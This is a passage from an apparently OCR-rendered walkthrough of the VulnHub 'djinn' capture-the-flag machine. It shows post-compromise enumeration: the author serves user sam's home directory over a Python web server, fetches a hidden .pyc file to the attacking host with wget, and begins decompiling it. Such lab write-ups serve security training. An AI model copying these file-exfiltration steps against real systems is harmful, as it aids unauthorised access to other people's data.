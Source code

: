 /home/mzfr/scripts/exp.pyt

\<module\>

Furthermore, Python simple web server can be launched from Sam's home directory
and then the file can be downloaded to the host for further enumeration.

sam\@djinn:/home/sam\$ python -m SimpleHTTPServer

python -m SimpleHTTPServer

Serving HTTP on 0.0.0.0 port 8000 ...

192.168.211.146 - - [08/Dec/2019 23:29:26] "GET /.pyc HTTP/1.1" 200 -

192.168.211.146 - - [08/Dec/2019 23:31:43] "GET /.pyc HTTP/1.1" 200 -

lifesfun:\~/vulnhub/djinn\# wget http://192.168.211.145:8000/.pyc

\--2019-12-08 13:01:43-- http://192.168.211.145:8000/.pyc

Connecting to 192.168.211.145:8000... connected.

HTTP request sent, awaiting response... 200 OK

Length: 1749 (1.7K) [application/octet-stream]

Saving to: ‘.pyc’

.pyc 100%[===================\>] 1.71K --.-KB/s in 0s

2019-12-08 13:01:43 (155 MB/s) - ‘.pyc’ saved [1749/1749]

Once downloaded uncompyle6 tool from python was used to decompile the file,
which presented the following:

lifesfun:\~/vulnhub/djinn\# uncompyle6 .pyc

\# uncompyle6 version 3.5.1

\# Python bytecode 2.7 (62211)

\# Decompiled from: Python 2.7.17 (default, Oct 19 2019, 23:36:22)

\# [GCC 9.2.1 20191008]

\# Embedded file name: /home/mzfr/scripts/exp.py

\# Compiled at: 2019-11-07 08:05:18

from getpass import getuser

from os import system

from random import randint

def naughtyboi():

print 'Working on it!! '

def guessit():

num = randint(1, 101)

print 'Choose a number between 1 to 100: '
